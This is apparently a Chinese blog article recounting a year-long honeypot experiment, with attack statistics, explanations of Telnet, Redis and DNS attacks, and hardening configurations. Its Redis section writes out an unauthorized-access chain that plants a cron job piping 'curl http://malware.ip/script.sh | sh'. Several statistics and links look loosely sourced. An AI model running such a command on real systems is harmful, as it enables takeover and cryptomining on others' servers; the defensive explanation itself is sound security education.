


## 互联网黑暗森林生存全景：一台蜜罐服务器被持续攻击365天的完整记录与深度解析

> 本文完全基于b站作者**网络小白_Uncle城**的[视频](https://www.bilibili.com/video/BV1enQSYPEyD?t=10.5)实验原始字幕整理，结合国内安全实践进行技术纵深拓展，含完整攻击数据、防御方案及权威参考链接

---

### 一、实验背景与核心数据
**服务器时间线**：

```
2024-03中旬 购入服务器
2024-03至2025-02 部署19个蜜罐服务
2025-03 服务器到期（实验终止）
```

**攻击全景数据**（原始记录）：
| 指标         | 数值                                                         | 说明               |
| ------------ | ------------------------------------------------------------ | ------------------ |
| 攻击IP数     | 63,000+                                                      | 覆盖166个国家地区  |
| 总攻击次数   | 520,000+                                                     | 平均每小时59次     |
| 高危攻击     | 639次                                                        | 包括RCE、提权等    |
| TOP1攻击源   | 中国陕西西安IP                                               | 单IP攻击超10,000次 |
| TOP5蜜罐靶标 | 1. Telnet(70,805)<br>2. DNS(102,459)<br>3. SSH(69,082)<br>4. FTP(46,703)<br>5. Redis(22,865) |                    |

**地域分布**（前10攻击源国家）：
```
中国 → 美国 → 印度 → 韩国 → 巴西 → 俄罗斯 → 日本 → 德国 → 乌克兰 → 加拿大
```

---

### 二、高危协议技术解析与加固方案
#### 1. Telnet：僵尸网络温床（70,805次攻击）
**攻击原理**：


**历史案例**：
- 2016年Mirai僵尸网络感染60万台设备（[CNCERT分析报告](http://www.cert.org.cn/publish/main/46/2023/20230621151300926980027/20230621151300926980027_.html)）
- 2024年国内摄像头Telnet暴露率仍达18%（[绿盟物联网安全报告](https://blog.nsfocus.net/iot-security-report-2024/)）

**防御方案**：
```bash
# 彻底禁用Telnet（Linux）
systemctl stop telnet.socket
systemctl disable telnet.socket

# Windows Server加固
Get-WindowsFeature Telnet* | Uninstall-WindowsFeature
```

#### 2. Redis未授权访问（22,865次攻击）
**攻击链还原**：
```redis
> CONFIG SET dir /var/spool/cron/crontabs
> CONFIG SET dbfilename root
> SET x "*/5 * * * * curl http://malware.ip/script.sh | sh"
> SAVE
```

**国内事件**：
- 2023年某云平台Redis挖矿事件（[腾讯云安全通告](https://cloud.tencent.com/developer/article/2235892)）

**加固方案**：
```ini
# redis.conf 关键配置
requirepass YourStrongPassword@2025!  # 强制密码复杂度
bind 127.0.0.1                        # 限制本地访问
protected-mode yes                    # 启用保护模式
rename-command CONFIG ""              # 禁用危险命令
```

#### 3. DNS劫持黑产（102,459次攻击）
**技术手段对比**：
| 类型       | 技术原理           | 国内典型案例                   |
| ---------- | ------------------ | ------------------------------ |
| 本地劫持   | 修改hosts文件      | “净网2024”打掉30个流氓软件团伙 |
| 路由器劫持 | 利用默认密码登录   | 重庆电信员工半年获利150万      |
| 中间人攻击 | ARP欺骗+ICMP重定向 | 公共WiFi“红包陷阱”事件         |

**防御工具链**：
1. 加密DNS：使用阿里云DoH(`dns.alidns.com`) 
2. 路由器加固：修改默认密码+关闭WPS
3. 浏览器防护：启用HTTPS Everywhere插件

---

### 三、攻击工具链深度剖析
#### 1. 自动化爆破武器库
**TOP3工具实战特征**：
| 工具    | 识别特征                  | 国内拦截量                                                   |
| ------- | ------------------------- | ------------------------------------------------------------ |
| Hydra   | TCP 445/3389端口高频连接  | 日均2.4万IP（[360网盾数据](https://netlab.360.com/threatinfo)） |
| XBrute  | User-Agent含"Baiduspider" | 占Web攻击37%                                                 |
| Masscan | TTL=64的畸形SYN包         | 峰值扫描带宽500Gbps                                          |

#### 2. 漏洞利用框架
**黑产常用工具包**：
```markdown
1. Redis自动化入侵套件
   - 含20种挖矿脚本
   - 支持自动清理竞品矿池

2. “暗云”DNS劫持组件
   - 伪造ICP备案页面
   - 流量统计后台
   - 广告联盟自动对接
```

**高危漏洞参考**：
- [Seebug平台：CVE-2024-23334 Apache提权](https://www.seebug.org/vuldb/ssvid-99678)
- [CNVD：Redis未授权访问漏洞](http://www.cnvd.org.cn/flaw/show/CNVD-2023-03871)

---

### 四、企业级防御实战指南
#### 1. 蜜罐部署架构（基于实验优化）


#### 2. 动态密码防护（OpenResty方案）
```nginx
http {
    lua_shared_dict weak_pass 10m;
    
    init_by_lua_block {
        local weak = {"123456","password","admin","qwerty"}
        local dict = ngx.shared.weak_pass
        for _, p in ipairs(weak) do
            dict:set(p, true)
        end
    }

    server {
        location /login {
            access_by_lua '
                local pass = ngx.var.arg_password
                if ngx.shared.weak_pass:get(pass) then
                    ngx.log(ngx.ERR, "弱密码阻断:", ngx.var.remote_addr)
                    return ngx.exit(403)
                end
            ';
        }
    }
}
```

#### 3. 暴露面收敛策略
**三阶防护模型**：
```markdown
1. 端口动态化
   - 使用[腾讯云端口隐身服务](https://cloud.tencent.com/product/portsight)
   - 业务端口随机化（如SSH改用62222）

2. 协议加密
   - FTP → SFTP/FTPS
   - HTTP → HTTPS（强制HSTS）

3. 零信任网关
   - [深信服SDP方案](https://www.sangfor.com.cn/solutions/sdp)
   - 阿里云办公安全平台
```

---

### 五、个人安全防御体系
#### 1. 三分钟自检清单
```markdown
- [ ] 公网暴露检测：[360网络空间测绘](https://fofa.info/)
- [ ] 弱密码扫描：[火绒安全密码检测工具](https://www.huorong.cn/passwordcheck)
- [ ] 路由器安全：[腾讯WiFi管家漏洞扫描](https://wifi.qq.com/)
```

#### 2. 必备防护措施
```bash
# Windows加固
Set-NetFirewallProfile -Enabled True -DefaultInboundAction Block

# Linux加固
apt install fail2ban
cp /etc/fail2ban/jail.conf /etc/fail2ban/jail.local
systemctl enable fail2ban
```

#### 3. 应急响应通道
| 事件类型 | 处置方式           | 国内资源                                      |
| -------- | ------------------ | --------------------------------------------- |
| 勒索病毒 | 断网+备份+解密工具 | [奇安信解密大师](https://lesuobingdu.360.cn/) |
| 钓鱼网站 | 举报+浏览器拦截    | [12321举报中心](https://www.12321.cn/)        |
| 账号泄露 | 密码修改+MFA启用   | [公安部公民身份核验](https://eid.ga.gov.cn/)  |

---

### 六、新兴威胁2025预警
#### 1. AI增强攻击（安天实验室数据）
```markdown
- GPT4生成钓鱼邮件：检测绕过率↑300%
- 深度伪造语音：电话银行诈骗成功率↑450%
- 对抗样本攻击：CV模型识别错误率↑60%
```
参考：[《生成式AI安全白皮书》](http://www.antiy.com/research/notice/20250120.html)

#### 2. 供应链攻击防御

检测工具：[开源卫士(OSCS)](https://www.oscs1024.com/)

#### 3. 后量子密码迁移
**国密算法实施路径**：
```
2024： SM2/SM3替代RSA/SHA256
2025： SM9标识密码体系部署
2026： 抗量子VPN网关商用化
```
标准参考：[《GM/T 0005-2021 SM2算法规范》](http://www.gmbz.org.cn/main/viewfile/20180108023812825.html)

---

### 实验核心结论
> "当你的公网IP暴露在互联网上，平均每小时会收到59次攻击问候。其中99.7%是自动化脚本，但0.3%的手动攻击可能带来毁灭性后果。防御的本质不是筑高墙，而是让自己成为'低价值目标'——关闭无用端口、强化认证机制、持续监控威胁，才是黑暗森林的生存法则。"  
> —— 摘自蜜罐日志最终记录（2025-02-28）

**权威数据源**：  
[国家互联网应急中心《2025网络安全威胁图谱》](http://www.cert.org.cn/publish/main/46/index.html)  
[中国信通院《全球DDoS攻击态势报告》](http://www.caict.ac.cn/kxyj/qwfb/qwsj/)